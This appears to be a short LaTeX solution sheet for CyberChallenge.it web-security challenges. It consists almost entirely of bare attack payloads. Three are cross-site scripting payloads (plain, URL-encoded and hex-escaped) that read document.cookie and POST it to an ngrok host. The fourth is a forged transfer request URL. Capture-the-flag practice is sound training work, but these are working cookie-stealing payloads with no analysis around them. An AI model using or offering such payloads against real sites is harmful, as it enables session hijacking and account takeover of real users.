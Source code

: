 \section{WS_3.04 - XSS Simple 4}
\texttt{<body onload="fetch('https://<your-token>.ngrok-free.app/', {method:'POST', body:document.cookie});"> asasdf </body>}

\section{WS_3.05 - XSS Simple 5}
\texttt{\%0Afetch(\%60https\%3A\%2F\%2F<your-token>.ngrok-free.app\%60\%2C\%20\%7Bmethod\%3A\%60POST\%60\%2C\%20body\%3Adocument.cookie\%7D)\%3B\%2F\%2F}

\section{WS_3.06 - Buy me a flag pls}
\texttt{http://buyflag.challs.cyberchallenge.it/doTransfer.php?to=2136&amount=10}

\section{WS_3.07 - jpasta}
\texttt{\x3cscript\x3efetch\x22https://7f4f-109-54-123-152.ngrok-free.app/test,\x7bmethod:\x22POST,body:document.cookie\x7d\x3c/script\x3e}
